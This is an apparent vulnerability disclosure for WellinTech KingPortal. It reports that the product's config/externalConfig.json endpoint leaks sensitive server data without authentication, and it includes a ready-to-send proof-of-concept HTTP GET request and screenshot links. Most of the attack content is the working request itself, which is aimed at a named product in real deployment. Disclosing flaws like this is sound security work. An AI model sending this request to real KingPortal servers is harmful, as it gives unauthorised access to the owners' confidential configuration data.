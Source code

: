 # WellinTech KingPortal information leakage vulnerability

WellinTech KingPortal has an information leakage vulnerability, allowing attackers to bypass authentication and obtain server data.

Simply access the config/externalConfig.json page of the KingPortal system (http://xxxxx.com/config/externalConfig.json) to obtain sensitive data from the attacked website's server.

POC

```
GET /config/externalConfig.json HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Authorization: Bearer null
X-Requested-With: XMLHttpRequest
Connection: close
Referer: 
Priority: u=0
```
![image.png](https://s2.loli.net/2024/11/13/khbyAz1rN4OSoYt.png)

![image-20241113213311066.png](https://s2.loli.net/2024/11/13/Nc1qHVK4DkwjG6O.png)


